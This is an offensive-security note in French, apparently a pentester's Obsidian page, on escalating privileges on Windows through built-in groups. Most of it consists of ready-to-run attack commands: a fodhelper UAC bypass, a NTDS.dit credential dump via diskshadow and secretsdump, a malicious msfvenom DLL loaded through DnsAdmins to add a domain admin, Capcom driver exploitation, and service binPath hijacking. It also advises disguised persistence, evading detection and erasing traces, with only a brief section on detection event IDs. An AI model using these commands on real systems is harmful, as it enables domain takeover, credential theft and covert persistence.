

## Reconnaissance des privilèges

L'identification des droits effectifs est une étape critique pour déterminer le vecteur d'escalade de privilèges le plus efficace.

```powershell
whoami /groups
whoami /priv
```

| Groupe | Privilèges associés | Exploits possibles |
| :--- | :--- | :--- |
| **Backup Operators** | **SeBackupPrivilege**, **SeRestorePrivilege** | Lecture fichiers restreints, dump **NTDS.dit** |
| **DnsAdmins** | Droit écriture registre DNS | Injection DLL malveillante |
| **Event Log Readers** | Lecture journaux événements | Récolte IOC, recherche de persistance |
| **Hyper-V Admins** | Accès complet aux VM | Vol de VM, dump mémoire, **Hard Link** abuse |
| **Print Operators** | **SeLoadDriverPrivilege** | LPE via driver malveillant |
| **Server Operators** | Gestion services, partages | Manipulation de services, exécution code |

## Analyse des GPO liées aux droits d'utilisateur

Avant toute exploitation, il est crucial de vérifier si les privilèges (ex: **SeBackupPrivilege**) ont été assignés via des GPO, ce qui permet d'identifier les machines cibles dans le domaine.

```powershell
# Lister les GPO appliquées à l'utilisateur courant
gpresult /r

# Vérifier les droits assignés via GPO sur le contrôleur de domaine (nécessite RSAT)
Get-GPOReport -All -ReportType XML | Select-String "SeBackupPrivilege"
```

## Détails sur l'UAC bypass nécessaire pour certains privilèges

Certains privilèges, bien qu'attribués au compte, sont filtrés par l'UAC (User Account Control). L'utilisation de **fodhelper.exe** ou **computerdefaults.exe** est souvent nécessaire pour élever le jeton avant d'exécuter les commandes d'abus.

```powershell
# Exemple d'UAC Bypass via fodhelper pour obtenir un shell élevé
$command = "powershell.exe"
$key = "HKCU:\Software\Classes\ms-settings\Shell\Open\command"
New-Item -Path $key -Force
Set-ItemProperty -Path $key -Name "DelegateExecute" -Value ""
Set-ItemProperty -Path $key -Name "(default)" -Value $command
Start-Process "fodhelper.exe"
```

## Abus SeBackupPrivilege

> [!info]
> Le privilège **SeBackupPrivilege** permet de contourner les ACLs NTFS mais nécessite une extraction offline des secrets. Voir aussi : [[Mimikatz & Credential Dumping]].

### Dump NTDS.dit sur un DC

1. Création d'une copie instantanée avec **diskshadow.exe** :
```powershell
diskshadow.exe
> set verbose on
> set metadata C:\Windows\Temp\meta.cab
> set context clientaccessible
> begin backup
> add volume C: alias cdrive
> create
> expose %cdrive% E:
> end backup
> exit
```

2. Copie du fichier **NTDS.dit** :
```powershell
Copy-FileSeBackupPrivilege "E:\Windows\NTDS\ntds.dit" "C:\Tools\ntds.dit"
# Ou via robocopy
robocopy /B E:\Windows\NTDS C:\Tools\ntds ntds.dit
```

3. Sauvegarde de la ruche SYSTEM :
```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
```

4. Extraction offline avec **secretsdump.py** :
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM.SAV -hashes lmhash:nthash LOCAL
```

## Abus DnsAdmins (DLL Injection)

> [!warning]
> Le chargement de DLL via **DnsAdmins** nécessite un redémarrage du service DNS pour être effectif.

1. Génération de la DLL malveillante :
```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

2. Configuration du service DNS :
```cmd
dnscmd /config /serverlevelplugindll C:\chemin\vers\adduser.dll
```

3. Redémarrage du service :
```cmd
sc stop dns
sc start dns
```

## Abus Print Operators (SeLoadDriverPrivilege)

> [!danger]
> L'abus de **Print Operators** via **Capcom.sys** est fortement détecté par les EDR modernes.

1. Activation du privilège :
```cmd
EopLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys
```

2. Exécution de l'exploit pour obtenir un shell **SYSTEM** :
```cmd
ExploitCapcom.exe
```

## Abus Hyper-V Administrators

> [!note]
> L'utilisation de hard links pour l'escalade de privilèges est sensible aux patchs Windows récents.

1. Création d'un lien physique vers un binaire système :
```powershell
New-Item -ItemType HardLink -Path C:\HyperV\FakeVM.vhdx -Target "C:\Windows\System32\utilman.exe"
```

2. Suppression de la VM pour forcer la réinitialisation des ACLs sur la cible.

## Abus Server Operators (Service Manipulation)

> [!warning]
> La modification du **binPath** d'un service est une action très bruyante dans les logs (**Event ID 7045**/**4697**). Voir aussi : [[Windows Service Security]].

1. Modification du chemin d'exécution d'un service tournant en **SYSTEM** :
```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators user /add"
sc start AppReadiness
```

## Techniques de persistance spécifiques aux groupes abusés

Une fois le privilège acquis, il est recommandé d'assurer une persistance discrète :

- **DnsAdmins** : Utiliser la DLL malveillante pour créer un service persistant ou une tâche planifiée plutôt qu'un simple ajout d'utilisateur.
- **Server Operators** : Créer un service personnalisé avec un nom légitime (ex: `Windows Update Helper`) pointant vers un binaire malveillant.
- **Event Log Readers** : Utiliser ce droit pour surveiller les tentatives de détection de votre propre activité et ajuster votre OpSec.

## Surveillance Event Logs

La surveillance des logs est essentielle pour détecter les activités suspectes liées aux groupes intégrés.

```powershell
# Filtrage des événements 4688 (Process Creation)
Get-WinEvent -LogName Security | Where-Object {
    $_.Id -eq 4688 -and $_.Properties[8].Value -like "*/user*"
}
```

## Analyse des logs d'audit spécifiques aux attaques présentées

Pour auditer efficacement les attaques, surveillez les IDs suivants :

| Attaque | Event ID | Description |
| :--- | :--- | :--- |
| **Service Manipulation** | 7045 | Nouveau service installé (binPath modifié) |
| **DnsAdmins** | 4697 | Chargement de service/DLL non signé |
| **SeBackupPrivilege** | 4663 | Accès à un objet (NTDS.dit) avec privilège spécial |
| **LPE (LoadDriver)** | 4673 | Utilisation de privilèges sensibles (SeLoadDriverPrivilege) |

## Nettoyage et OpSec

Pour limiter les traces après exploitation :

1. Restauration des permissions originales :
```powershell
icacls "fichier.txt" /reset
```

2. Suppression des clés de registre créées :
```cmd
reg delete HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

3. Suppression des utilisateurs créés :
```cmd
net user nom_utilisateur /del
```